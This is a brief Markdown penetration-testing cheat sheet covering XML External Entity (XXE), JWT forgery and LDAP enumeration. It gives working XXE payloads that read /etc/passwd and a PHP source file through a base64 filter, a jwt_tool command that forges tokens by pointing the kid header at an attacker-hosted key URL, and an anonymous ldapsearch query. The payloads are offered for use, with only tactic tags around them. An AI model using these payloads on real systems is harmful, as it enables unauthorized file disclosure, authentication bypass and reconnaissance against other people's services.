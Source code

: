 
# XML External Entity (XXE)

- service: http
- tactics: enumeration
- tactics: inital_access

## Read local files

```xml
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
                <foo>
                <something>&xxe;</something>
                </foo>
```

## Read binary or files that otherwise can't be display (.php)

```xml
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=db.php">]>
                <foo>
                <something>&xxe;</something>
                </foo>
```

---

# Java-Web-Token (JWT)

- service: http
- tactics: inital_access

## Sign JWT with own key - might need a webserver serving the private key

```python
python3 jwt_tool.py [eyJ0eXAiOiJKV1QiLCJhbG..snip..] -I -hc kid -hv "http://<IP>/jwt.pub" -pc <admin_cap> -pv <1> -S rs256 -pr jwt.key
```

---

# ldapsearch
- service: ldap
- tactics: discovery

`ldapsearch -x -h target-ip -b "dc=domain,dc=tld"`

---